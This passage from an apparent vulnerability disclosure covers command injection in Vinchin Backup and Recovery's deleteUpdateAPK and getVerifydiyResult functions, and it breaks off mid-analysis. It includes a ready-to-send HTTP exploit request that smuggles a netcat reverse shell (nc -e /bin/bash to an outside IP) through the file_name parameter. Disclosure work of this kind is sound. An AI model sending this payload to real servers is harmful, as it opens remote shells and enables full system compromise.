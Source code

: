 An attacker can exploit this vulnerability by injecting commands through the `file_name` parameter.

#### Exploit Example:

An attacker can send a POST request with a specially crafted `file_name` parameter:

```http
POST /api/ HTTP/1.1
Host: [Vinchin Server IP]
Cookie: [Session Cookie]
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

m=8&f=deleteUpdateAPK&p={"md5":"dummy_md5","file_name":";nc -e /bin/bash 192.168.1.5 1338"}
```

In this request, the attacker appends a reverse shell command (`nc -e /bin/bash 192.168.1.5 1338`) to the `file_name` parameter, leading to its execution on the server.

#### Conclusion:

The `deleteUpdateAPK` function's vulnerability is another instance of command injection due to insufficient input validation. It allows an attacker to execute arbitrary commands on the server, potentially leading to full system compromise. 

Vinchin should urgently address this vulnerability by implementing strict input validation and command execution controls. Users of Vinchin Backup and Recovery should apply any available security updates to mitigate this risk.


### Deep Dive into the `getVerifydiyResult` Function Vulnerability in Vinchin Backup and Recovery

![](/vinchin-backup-rce-chain-2024/getVerifydiyResult.png)

#### Vulnerability Overview:

In Vinchin Backup and Recovery's `ManoeuvreHandler.class.php` file, the `getVerifydiyResult` function contains a critical command injection vulnerability. This function is intended to validate either IP addresses or web resources, depending on the value of the `type` parameter.

#### Function Analysis:

**Function Prototype**:
```php
public function getVerifydiyResult($params)
```

1. **Parameter Handling**:
   The function processes an input array `$params`, focusing on the keys `type` and `value`:
   ```php
   $type = intval($params['type']);
   $value = $params['value'];
   ```

2. **Critical Logic with `type` Parameter**:
   The function uses a `switch` statement to determine the validation method:
   ```php
   switch ($type) {
       case $verifyType['IP']:  // where $verifyType['IP'] is typically 1
           $verifyResult = $this->verifyPing($value);
           break;
       case $verifyType['WEB']:
           $verifyResult = $this->verifyWeb($value);
           break;
   }
   ```
   